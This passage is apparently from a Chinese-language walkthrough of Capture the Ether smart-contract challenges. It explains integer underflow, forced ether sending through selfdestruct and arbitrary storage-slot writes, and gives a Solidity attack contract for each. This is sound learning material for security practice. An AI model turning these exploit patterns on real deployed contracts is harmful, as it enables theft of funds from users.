 明明是`transferFrom()`，转移的却是`msg.sender`的代币。因此可以利用这点来让一个没有余额的账户余额发生下溢，从而获得大量该代币，然后转给自己从而完成挑战。

```solidity
    function attack() external {
        challenge.transferFrom(msg.sender, msg.sender, tokenAmount);
        challenge.transfer(msg.sender, getAmount);
        require(challenge.isComplete(), "get number of token Insufficient!");
    }
```

###### [Retirement fund](https://capturetheether.com/challenges/math/retirement-fund/)

这个合约的溢出攻击点在于withdraw计算可能产生下溢，从而绕开`collectPenalty()`的检查，提走合约中的所有eth：

```solidity
 function collectPenalty() public {
        require(msg.sender == beneficiary);

        uint256 withdrawn = startBalance - address(this).balance;

        // an early withdrawal occurred
        require(withdrawn > 0);

        // penalty is what's left
        msg.sender.transfer(address(this).balance);
    }
```

我们只需要给合约转点eth，即可产生下溢完成攻击。

然而合约没有任何payable函数和receive函数，无法给合约发送eth。这时候就需要一个可以强制给合约发送eth的手段了：`selfdestruct(target)`自毁函数。

合约调用自毁函数后，会将合约所有的eth余额强制发送给target地址，并且不需要任何条件。利用这个函数写一个自毁合约，并往挑战合约中发送eth，即可使withdraw计算产生下溢，绕开检查，获取大量代币完成挑战。

我的自毁合约如下：

```solidity
contract RetirementFundAttacker {

    constructor (address payable victimAddress) payable {
        require(msg.value > 0);
        selfdestruct(victimAddress);
    }
}
```

###### [Mapping](https://capturetheether.com/challenges/math/mapping/)

这是一个涉及存储布局的挑战，可以通过该挑战作者的博文[Understanding Ethereum Smart Contract Storage](https://programtheblockchain.com/posts/2018/03/09/understanding-ethereum-smart-contract-storage/)了解合约的存储布局。这个合约可以让用户在任意key位置写入value值，其实就是用户可以控制合约中任意存储位置的值了，因此只需找到isComplete变量位置对应的key值，将其变为1，即可完成挑战。

```solidity
    function attack() external payable {
        uint256 key = type(uint256).max - uint256(keccak256(abi.encode(1))) + 1;
        challenge.set(key,uint256(1));
        require(challenge.isComplete(),"challenge is not completed!");
    }
```
